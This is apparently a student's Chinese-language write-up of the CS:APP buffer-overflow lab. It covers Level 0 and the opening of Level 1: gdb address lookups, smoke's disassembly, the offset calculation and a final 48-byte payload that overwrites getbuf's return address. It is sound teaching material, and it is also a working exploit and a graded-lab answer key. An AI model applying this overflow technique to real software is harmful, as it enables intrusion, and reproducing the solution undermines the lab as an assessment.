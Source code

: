 利用`gdb`调试工具获得`test`函数的地址：

```shell
(gdb) info address test
Symbol "test" is at 0x8048be0 in a file compiled without debugging.
```



<img src="C:/Users/xiaojs20/AppData/Roaming/Typora/typora-user-images/image-20221115113734403.png" alt="image-20221115113734403" style="zoom: 67%;" />

利用`gdb`调试工具获得`smoke`函数的地址：

```shell
(gdb) info address smoke
Symbol "smoke" is at 0x8048b04 in a file compiled without debugging.
```

`smoke`反汇编代码

```assembly
08048b04 <smoke>:
 8048b04:	55                   	push   %ebp
 8048b05:	89 e5                	mov    %esp,%ebp
 8048b07:	83 ec 18             	sub    $0x18,%esp
 8048b0a:	c7 04 24 b0 a5 04 08 	movl   $0x804a5b0,(%esp)
 8048b11:	e8 ea fd ff ff       	call   8048900 <puts@plt>
 8048b16:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 8048b1d:	e8 0c 09 00 00       	call   804942e <validate>
 8048b22:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 8048b29:	e8 f2 fd ff ff       	call   8048920 <exit@plt>
```

现在我们应该往`getbuf()`的栈帧中注入数据，使其修改返回地址，因此注入的字符串末尾应为`04 8b 04 08  `（小端存储）。

而从`getbuf`的反汇编代码可以知道`buf[0]`的地址为`-0x28(%ebp)`，而return address的地址为`0x4(%ebp)`，之间间隔44个字节，可以用`00`注入，最后再加上`04 8b 04 08  `修改return address处的数据即可。

**最终答案**

```
/* Level 0: Candle 44 byte 00 + 4 byte smoke address */
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 04 8b 04 08
```

## Level 1: Sparkler (10 pts)

> 修改 getbuf() 的函数返回地址，并传参。参数的值就是你的 cookie

```C
void fizz(int val)
{
    if (val == cookie) {
        printf("Fizz!: You called fizz(0x%x)\n", val);
        validate(1);
    }
    else
    	printf("Misfire: You called fizz(0x%x)\n", val);
    exit(0);
}
```
